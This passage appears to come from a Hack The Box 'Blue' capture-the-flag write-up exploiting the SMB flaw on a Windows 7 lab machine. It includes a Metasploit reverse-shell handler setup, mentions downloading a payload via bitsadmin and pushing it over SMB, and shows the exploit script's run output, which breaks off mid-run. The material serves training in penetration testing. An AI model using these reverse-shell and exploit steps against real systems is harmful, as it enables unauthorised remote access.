 The first exploit I tried involved using `bitsadmin` to download the shell script from our box, as shown below:

![](/assets/images/blogs/Pasted image 20210501180503.png)

However this would turn out not to work, and I eventually settled on using `smb_send_file` instead:

![](/assets/images/blogs/Pasted image 20210501191017.png)

(*note:* I also changed the name of the `.exe` to `sc.exe`, in case `shell.exe` was getting caught by AV - this turned out not to be the issue, but that's why the filename has changed)

I used the `msf` handler, as per the tutorial:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/blue]
└─$ msfconsole -q
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/shell_reverse_tcp
payload => windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf6 exploit(multi/handler) > set lport 9001
lport => 9001
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.2:9001 
```

I spent a while debugging my payloads - I had made some syntax errors in my original attempt, which I've excluded because no one wants to read those.

My real issues turned out to be getting the username and delivery method incorrect, but most of my time was spent changing payloads as I believed that to be the issue at the time. A lesson was learnt here - go for the simplest payload first and make sure everything else is correct before you go changing it.

When all that was fixed I ran my exploit:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/blue]
└─$ python2 exploit.py 10.10.10.40 netlogon
Target OS: Windows 7 Professional 7601 Service Pack 1
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa8002dc6ba0
SESSION: 0xfffff8a001520560
FLINK: 0xfffff8a008214048
InParam: 0xfffff8a00826015c
MID: 0x2207
unexpected alignment, diff: 0x-4cfb8
leak failed... try again
CONNECTION: 0xfffffa8002dc6ba0
SESSION: 0xfffff8a001520560
FLINK: 0xfffff8a004117048
InParam: 0xfffff8a00827215c
MID: 0x2207
unexpected alignment, diff: 0x-415bfb8
leak failed... try again
CONNECTION: 0xfffffa8002dc6ba0
SESSION: 0xfffff8a001520560
FLINK: 0xfffff8a008254048
InParam: 0xfffff8a00890715c
MID: 0x2207
```